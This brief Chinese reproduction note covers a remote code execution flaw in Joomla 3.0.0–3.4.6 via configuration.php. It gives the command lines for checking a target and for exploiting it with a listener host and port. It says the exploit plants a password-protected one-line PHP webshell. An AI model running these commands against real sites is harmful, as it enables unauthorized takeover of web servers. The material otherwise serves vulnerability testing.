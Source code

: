 # Joomla-3.4.6 --- configuration.php-远程代码执行

影响范围：3.0.0-3.4.6
1、漏洞验证

python3 Joomla-3.4.6-RCE.py -t http://172.20.10.4

显示“Vulnerable”证明存在漏洞


python3 test.py -t http://127.0.0.1:8080/ --exploit --lhost 192.168.31.126 --lport 2121

执行成功

并在“configuration.php”写入随机密码的一句话木马


